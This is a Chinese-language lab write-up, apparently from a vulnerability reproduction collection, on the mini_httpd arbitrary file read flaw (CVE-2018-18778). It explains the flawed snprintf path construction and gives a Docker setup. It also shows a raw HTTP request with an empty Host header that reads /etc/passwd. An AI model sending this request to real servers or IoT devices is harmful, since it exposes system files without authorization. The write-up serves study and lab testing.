

# mini_httpd任意文件读取漏洞（CVE-2018-18778）

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

执行如下命令启动mini_httpd 1.29：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取文件：

